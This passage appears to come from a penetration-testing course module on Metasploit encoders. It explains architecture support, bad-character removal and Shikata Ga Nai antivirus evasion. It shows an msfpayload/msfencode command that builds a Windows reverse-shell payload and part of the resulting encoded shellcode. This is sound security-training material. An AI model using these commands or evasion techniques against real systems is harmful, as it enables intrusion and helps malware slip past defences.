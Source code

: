 # Encoders
- [Encoders](#encoders)
  - [**Selecting an Encoder**](#selecting-an-encoder)
    - [**Generating Payload - Without Encoding**](#generating-payload---without-encoding)
    - [**Generating Payload - With Encoding**](#generating-payload---with-encoding)
    - [**Shikata Ga Nai Encoding**](#shikata-ga-nai-encoding)
    - [**MSF - VirusTotal**](#msf---virustotal)

Over the 15 years of existence of the Metasploit Framework, `Encoders` have assisted with making payloads compatible with different processor architectures while at the same time helping with antivirus evasion. `Encoders` come into play with the role of changing the payload to run on different operating systems and architectures. These architectures include:

| **`x64`** | **`x86`** | **`sparc`** | **`ppc`** | **`mips`** |
| --- | --- | --- | --- | --- |

They are also needed to remove hexadecimal opcodes known as `bad characters` from the payload. Not only that but encoding the payload in different formats could help with the AV detection as mentioned above. However, the use of encoders strictly for AV evasion has diminished over time, as IPS/IDS manufacturers have improved how their protection software deals with signatures in malware and viruses.

Shikata Ga Nai (`SGN`) is one of the most utilized Encoding schemes today because it is so hard to detect that payloads encoded through its mechanism are not universally undetectable anymore. Far from it. The name (`仕方がない`) means `It cannot be helped` or `Nothing can be done about it`, and rightfully so if we were reading this a few years ago. However, there are other methodologies we will explore to evade protection systems. [This article from FireEye](https://www.fireeye.com/blog/threat-research/2019/10/shikata-ga-nai-encoder-still-going-strong.html) details the why and the how of Shikata Ga Nai's previous rule over the other encoders.

---

## **Selecting an Encoder**

Before 2015, the Metasploit Framework had different submodules that took care of payloads and encoders. They were packed separately from the msfconsole script and were called `msfpayload` and `msfencode`. These two tools are located in `/usr/share/framework2/`.

If we wanted to create our custom payload, we could do so through `msfpayload`, but we would have to encode it according to the target OS architecture using `msfencode` afterward. A pipe would take the output from one command and feed it into the next, which would generate an encoded payload, ready to be sent and run on the target machine.

```
th1nyunb0y@htb[/htb]$ msfpayload windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | msfencode -b '\x00' -f perl -e x86/shikata_ga_nai[*] x86/shikata_ga_nai succeeded with size 1636 (iteration=1)

my$buf = 
"\xbe\x7b\xe6\xcd\x7c\xd9\xf6\xd9\x74\x24\xf4\x58\x2b\xc9" .
"\x66\xb9\x92\x01\x31\x70\x17\x83\xc0\x04\x03\x70\x13\xe2" .
"\x8e\xc9\xe7\x76\x50\x3c\xd8\xf1\xf9\x2e\x7c\x91\x8e\xdd" .
"\x53\x1e\x18\x47\xc0\x8c\x87\xf5\x7d\x3b\x52\x88\x0e\xa6" .
"\xc3\x18\x92\x58\xdb\xcd\x74\xaa\x2a\x3a\x55\xae\x35\x36" .
"\xf0\x5d\xcf\x96\xd0\x81\xa7\xa2\x50\xb2\x0d\x64\xb6\x45" .
"\x06\x0d\xe6\xc4\x8d\x85\x97\x65\x3d\x0a\x37\xe3\xc9\xfc" .
"\xa4\x9c\x5c\x0b\x0b\x49\xbe\x5d\x0e\xdf\xfc\x2e\xc3\x9a" .
"\x3d\xd7\x82\x48\x4e\x72\x69\xb1\xfc\x34\x3e\xe2\xa8\xf9" .
"\xf1\x36\x67\x2c\xc2\x18\xb7\x1e\x13\x49\x97\x12\x03\xde" .
"\x85\xfe\x9e\xd4\x1d\xcb\xd4\x38\x7d\x39\x35\x6b\x5d\x6f" .
"\x50\x1d\xf8\xfd\xe9\x84\x41\x6d\x60\x29\x20\x12\x08\xe7" .
"\xcf\xa0\x82\x6e\x6a\x3a\x5e\x44\x58\x9c\xf2\xc3\xd6\xb9" .

<SNIP>
```
